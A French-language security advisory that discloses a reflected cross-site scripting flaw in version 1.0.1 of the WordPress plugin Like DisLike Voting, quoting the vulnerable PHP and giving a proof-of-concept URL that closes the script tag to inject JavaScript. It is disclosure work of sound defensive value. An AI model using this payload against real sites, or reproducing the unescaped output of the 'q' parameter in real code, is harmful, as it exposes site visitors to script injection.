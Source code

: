 ```yaml
---
title: "Cross-Site Scripting (reflected) dans le plugin Wordpress Like DisLike Voting"
tags: [vulnérabilité]
---
```


## Présentation du plugin

Le plugin [Like DisLike Voting](https://wordpress.org/plugins/like-dislike-voting/) (slug: `like-dislike-voting`) se présente de cette façon :

> Get like-dislike rating for your content. You can use the plugin to allow your user for rating as Like or Dislike to your content.
>
> It also counts and shows number of Like and Dislike hit. In dashboard you will find plugin option for placement of Like-Dislike button and also you can control voting type. You can allow everyone to rate your content and You also can allow registered user only to rate your content. It has simple codes that never crash with other plugin/theme.

La version testée est la 1.0.1 et date d'il y a 8 ans au moment de ces lignes.

## La vulnérabilité

Le script `index.php` du plugin ne fait que charger différents fichiers :

```php
require 'files/session.php';

require 'files/function.php';
 
require 'files/like.php';

require 'files/options.php';
```

C'est le fichier `like.php` qui nous intéresse, surtout la fonction `ldv_like_post` appelée comme hook :

```php
add_action('wp_head', 'ldv_like_post');
```

Cette fonction est la suivante :

```php
function ldv_like_post($content)
{
        if($_REQUEST['act']=='like' && $_REQUEST['q']!="" && $_SESSION[$_REQUEST['q'].'_post_like']=="") {
                $_SESSION[$_REQUEST['q'].'_post_like']='done';
                $counts=get_post_meta($_REQUEST['q'],'ldv_like_post',true)+1;
                add_post_meta($_REQUEST['q'], 'ldv_like_post', $counts, true);  
                update_post_meta($_REQUEST['q'], 'ldv_like_post', $counts);
                $url_rdir="http://".$_SERVER['HTTP_HOST'].$_SERVER['PHP_SELF']."?p=".$_REQUEST['q'];
                                                
                if(get_option('vote_type')=='reg')
                {                                       
                        $current_user = wp_get_current_user();
                        $usr_id=$current_user->ID;
                        $vote_done=get_option('vote_done');
                        if($vote_done=='') {
                                $vote_done[$usr_id]=$_REQUEST['q'];
                                add_option('vote_done',$vote_done);
                        } else {
                                if($vote_done[$usr_id]=='') {
                                        $vote_done[$usr_id]=$_REQUEST['q'];
                                } else {
                                        $vote_pst=explode(",",$vote_done[$usr_id]);
                                        for($i=0;$i<=count($vote_pst);$i++) {
                                                if($vote_pst[$i]!=$_REQUEST['q']) {
                                                        $do_vote="yes";
                                                        break;
                                                } 
                                        }
                                        if($do_vote=='yes') {
                                                $vote_done[$usr_id]=$vote_done[$usr_id].",".$_REQUEST['q'];
                                        }
                                }
                                update_option('vote_done',$vote_done);
                        }
                }
?>
                <script type="text/javascript">
                window.location = "<?php echo $url_rdir; ?>";
                </script>
<?php
        }
        if($_REQUEST['act']=='unlike' && $_REQUEST['q']!="" && $_SESSION[$_REQUEST['p'].'_post_like']=="") {
        --- snip ---
```

La suite du code est très ressemblante au premier bloc, mais avec le `dislike`.

Ce qui nous intéresse ici, c'est la variable `$url_rdir` qui est formée à l'aide du paramètre `q` puis affichée à la fin dans du code Javascript.

On peut donc inclure du code JS ici, mais pour que l'interprétation ait lieu il faut d'abord faire échouer la redirection basée sur `window.location`.

Pour cela, on va provoquer une erreur de syntaxe dans la balise script courante (en ne fermant pas la string) et ouvrir une autre balise script pour l'exploitation.

PoC :

```
http://localhost:8000/?q=%3C/script%3E%3Cscript%3Ealert(/XSS/)%3C/script%3E&act=unlike
```

Ce qui rend le code suivant :

```html
		<script type="text/javascript">
		window.location = "http://localhost:8000/index.php?p=</script><script>alert(/XSS/)</script>";
		</script>
```
